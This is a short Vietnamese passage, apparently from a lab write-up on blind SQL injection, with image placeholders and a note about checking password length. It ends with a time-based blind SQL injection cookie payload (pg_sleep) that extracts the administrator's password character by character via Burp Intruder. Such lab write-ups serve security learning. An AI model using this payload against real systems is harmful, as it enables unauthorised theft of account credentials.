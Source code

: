 ![alt text](image-42.png)

Kiểm tra độ dài password:
![alt text](image-43.png)

Cuối cùng là đưa vào intruder để tìm password với cookie dạng: 
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
